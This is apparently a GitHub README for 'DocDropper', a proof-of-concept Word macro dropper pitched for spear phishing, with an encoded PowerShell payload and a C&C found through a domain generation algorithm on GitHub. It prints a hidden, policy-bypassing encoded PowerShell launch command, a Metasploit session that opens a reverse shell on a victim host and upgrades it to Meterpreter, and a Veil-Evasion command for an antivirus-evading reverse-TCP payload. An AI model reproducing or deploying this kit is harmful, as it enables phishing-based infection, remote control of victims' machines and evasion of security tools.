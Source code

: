 # DocDropper

## Reboot Spear Phishing

#### Notice

DocDropper (POC+) is a .doc file dropper. You can start from it to setup Meterpreter, Empire, etc.

Indeed, DocDropper use a PowerShell Dynamic Generation Algorithm (DGA) to find a C&C hosted on Github.com.

Begin by `./dropper/vector.payload.ps1` is the encoded payload in the active Macro.

Next, `./stub/pwn.ps1` is the main payload to execute during infection.


```
powershell.exe -ExecutionPolicy Bypass -WindowStyle hidden -encodedCommand [code]
```

## Reminder

#### Cmd.exe to Meterpreter

```
msf > use exploit/multi/handler 
msf exploit(handler) > set payload windows/shell/reverse_tcp
payload => windows/shell/reverse_tcp
msf exploit(handler) > set LHOST 192.168.0.21
LHOST => 192.168.0.21
msf exploit(handler) > exploit -j
[*] Exploit running as background job.

[*] Started reverse handler on 192.168.0.21:4444 
[*] Starting the payload handler...
msf exploit(handler) > [*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 192.168.0.19
[*] Command shell session 1 opened (192.168.0.21:4444 -> 192.168.0.19:59134) at 2015-10-29 22:35:53 +0100

msf exploit(handler) > sessions -l

Active sessions
===============

  Id  Type           Information  Connection
  --  ----           -----------  ----------
  1   shell windows               192.168.0.21:4444 -> 192.168.0.19:59134 (192.168.0.19)

msf exploit(handler) > sessions -u 1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse handler on 192.168.0.21:4433 
[*] Starting the payload handler...
[-] Powershell is not installed on the target.
[*] Command stager progress: 1.66% (1699/102108 bytes)
[*] Command stager progress: 3.33% (3398/102108 bytes)
[...]
[*] Command stager progress: 99.78% (101888/102108 bytes)
[*] Command stager progress: 100.00% (102108/102108 bytes)
```

#### Veil-Evasion Meterpreter

```
veil-evasion -p c/meterpreter/rev_tcp -c LHOST=192.168.0.21 LPORT=4444
```
